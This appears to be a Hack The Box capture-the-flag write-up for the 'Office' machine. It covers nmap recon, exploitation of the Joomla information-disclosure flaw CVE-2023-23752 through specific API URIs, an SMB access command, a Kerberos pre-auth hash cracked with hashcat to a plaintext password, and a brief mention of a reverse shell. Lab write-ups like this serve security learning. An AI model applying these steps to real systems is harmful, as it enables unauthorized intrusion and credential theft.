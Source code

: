 # writeup office HTB(user)
## user
### RECON
```
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 16 disallowed entries 
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-generator: Joomla! - Open Source Content Management
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-title: Home
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-02-19 14:34:25Z)
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
..........................................

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38823/tcp): CLEAN (Timeout)
|   Check 2 (port 18395/tcp): CLEAN (Timeout)
|   Check 3 (port 60879/udp): CLEAN (Timeout)
|   Check 4 (port 60573/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 7h59m52s
| smb2-time: 
|   date: 2024-02-19T14:35:21
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 19 01:36:08 2024 -- 1 IP address (1 host up) scanned in 105.60 seconds
```
### web
let check admin page 
![image](https://github.com/vanatka10/myblog/assets/126310360/8cf1bcb3-0cb5-4c13-93c0-a7d89ea5a3f8)

i have login with some default username and password but nothing are corret

let check version joomla
we can check verion with following path:
```
Version
In /administrator/manifests/files/joomla.xml you can see the version.
In /language/en-GB/en-GB.xml you can get the version of Joomla.
In plugins/system/cache/cache.xml you can see an approximate version.
```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla

![image](https://github.com/vanatka10/myblog/assets/126310360/857f9313-2f9e-43d5-a2a7-889871041884)
### CVE-2023-23752
we can easily found cve of this version
![image](https://github.com/vanatka10/myblog/assets/126310360/6607d033-ebe1-4973-a4fd-99226cdf4ce1)

Unauthenticated information disclosure that's exactly what we want.

look at some exploit file we can see it with send request to some uri and retrieve some useful information:
```
{root_url}/api/index.php/v1/users?public=true
{root_url}/api/index.php/v1/config/application?public=true
```
![image](https://github.com/vanatka10/myblog/assets/126310360/7abb26a3-441a-466b-91ad-d538bbf8b461)

https://github.com/Acceis/exploit-CVE-2023-23752.git
### smb
```
smbclient //10.129.198.153/SOC\ Analysis  -U 'dwolfe'
```
and get file pcap

following this article we get username, hash and crack password with hashcat
https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/
```
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```

```
hashcat -m 19900 hash.txt /user/share/wordlist/rockyou.txt
```

pass:playboy69

### user

login admin panel -> template and ... get reverse shell
![image](https://github.com/vanatka10/myblog/assets/126310360/aaaf5e9b-a270-4b37-a264-d755805607e1)

next we use runas to elevate an account


